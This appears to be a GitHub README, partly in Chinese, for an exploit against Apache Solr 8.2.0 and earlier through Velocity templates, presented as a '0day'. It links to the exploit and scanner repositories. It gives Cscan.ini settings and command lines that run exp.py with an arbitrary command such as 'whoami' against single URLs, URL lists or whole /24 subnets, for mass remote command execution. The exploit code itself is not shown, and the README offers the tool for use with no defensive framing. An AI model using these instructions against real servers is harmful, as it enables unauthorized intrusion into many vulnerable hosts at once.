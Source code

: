 # Apache Solr <=8.2.0 Velocity Template 0day Exploit

Exploit: https://github.com/k8gege/SolrExp<br>
Cscan:https://github.com/k8gege/K8CScan<br>
### 环境
下载Solr 8.2.0添加core,默认配置即可。7.x版本自带core
### 配置
0x001 批量URL配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py $ip$ whoami<br>
0x002 批量C段配置Cscan.ini<br>
[Cscan]<br>
exe=F:\Python279\python.exe<br>
arg=exp.py http://$ip$:8983 whoami<br>
### 利用
单个: python exp.py url cmd<br> 或 Cscan url<br>
批量C段: Cscan 192.168.1.8/24<br>
批量URL: Cscan (同目录放url.txt)

<img src=https://github.com/k8gege/SolrExp/blob/master/Solr0day.gif>
